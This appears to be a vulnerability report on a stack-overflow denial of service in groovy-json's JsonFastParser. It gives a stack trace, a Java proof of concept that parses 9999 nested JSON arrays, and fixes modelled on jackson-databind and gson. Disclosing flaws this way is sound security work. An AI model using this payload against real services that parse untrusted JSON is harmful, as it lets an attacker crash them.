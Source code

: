 ## StackOverflowError caused by groovy-json parsing of untrusted JSON String
### Description
---
Using groovy-json to parse untrusted JSON String may be vulnerable to denial of service (DOS) attacks. If the parser is running on user supplied input, an attacker may supply content that causes the parser to crash by stackoverflow.

### Error Log
---
        Exception in thread "main" java.lang.StackOverflowError
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:252)
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:282)
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:282)
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
            at org.apache.groovy.json.internal.JsonFastParser.decodeJsonArrayOverlay(JsonFastParser.java:282)
            ...
            at org.apache.groovy.json.internal.JsonFastParser.decodeValueOverlay(JsonFastParser.java:132)
### Version
        <dependency>
            <groupId>org.codehaus.groovy</groupId>
            <artifactId>groovy-xml</artifactId>
            <version>3.0.17</version>
        </dependency>

### PoC
---
import groovy.json.JsonParser;
import org.apache.groovy.json.internal.JsonFastParser;

        public class CodehausGroovyJsonTest {

            public final static int TOO_DEEP_NESTING = 9999;
            public final static String TOO_DEEP_DOC = _nestedDoc(TOO_DEEP_NESTING, "[ ", "] ", "0");


            public static String _nestedDoc(int nesting, String open, String close, String content) {
                StringBuilder sb = new StringBuilder(nesting * (open.length() + close.length()));
                for (int i = 0; i < nesting; ++i) {
                    sb.append(open);
                    if ((i & 31) == 0) {
                        sb.append("\n");
                    }
                }
                sb.append("\n").append(content).append("\n");
                for (int i = 0; i < nesting; ++i) {
                    sb.append(close);
                    if ((i & 31) == 0) {
                        sb.append("\n");
                    }
                }
                return sb.toString();
            }

            public static void main(String[] args) {
                JsonParser jsonParser = new JsonFastParser();
                jsonParser.parse(TOO_DEEP_DOC);
            }
        }

        
### Rectification Solution
---
1.Refer to the solution of jackson-databind: Add the depth variable to record the current parsing depth. If the parsing depth exceeds a certain threshold, an exception is thrown. ([FasterXML/jackson-databind@fcfc499](https://github.com/FasterXML/jackson-databind/commit/fcfc4998ec23f0b1f7f8a9521c2b317b6c25892b))

2.Refer to the GSON solution: Change the recursive processing on deeply nested arrays or JSON objects to stack+iteration processing.([google/gson@2d01d6a20f39881c692977564c1ea591d9f39027](https://github.com/google/gson/commit/2d01d6a20f39881c692977564c1ea591d9f39027%EF%BC%89))
